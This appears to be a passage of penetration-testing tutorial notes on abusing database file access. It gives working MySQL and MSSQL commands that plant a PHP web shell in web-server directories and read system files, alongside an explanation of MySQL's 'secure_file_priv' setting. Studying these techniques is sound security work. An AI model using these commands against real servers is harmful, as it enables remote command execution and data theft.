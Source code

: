 ### Write Local Files 

MySQL does not have a stored procedure like `xp_cmdshell`, but we can archive command execution if we write to a location in the file system that can execute our commands, using `SELECT INTO OUTFILE` in the webserver directory:
```console
mysql> SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php';
```

In MySQL, a global system variable `secure_file_priv` limits the effect of data import and export operations, such as those performed by the `LOAD DATA` and `SELECT … INTO OUTFILE` statements and the `LOAD_FILE()` function. These operations are permitted only to users who have the **FILE** privilege. `secure_file_priv` may be set as follows:
- If **empty**, the variable has no effect, which is not a secure setting.
- If set to the **name of a directory**, the server limits import and export operations to work only with files in that directory. The directory must exist; the server does not create it.
- If set to **NULL**, the server disables import and export operations.

```console
mysql> show variables like "secure_file_priv";
```

To write files using MSSQL, we need to enable **Ole Automation Procedures**, which requires admin privileges, and then execute some stored procedures to create the file. To enable it:
```console
1> sp_configure 'show advanced options', 1
2> GO
3> RECONFIGURE
4> GO
5> sp_configure 'Ole Automation Procedures', 1
6> GO
7> RECONFIGURE
8> GO
```

Then to create a file:
```console
1> DECLARE @OLE INT
2> DECLARE @FileID INT
3> EXECUTE sp_OACreate 'Scripting.FileSystemObject', @OLE OUT
4> EXECUTE sp_OAMethod @OLE, 'OpenTextFile', @FileID OUT, 'c:\inetpub\wwwroot\webshell.php', 8, 1
5> EXECUTE sp_OAMethod @FileID, 'WriteLine', Null, '<?php echo shell_exec($_GET["c"]);?>'
6> EXECUTE sp_OADestroy @FileID
7> EXECUTE sp_OADestroy @OLE
8> GO
```

### Read Local Files 

By default, MSSQL allows file read on any file in the operating system to which the account has read access. We can use the following SQL query:
```console
1> SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents
2> GO
```
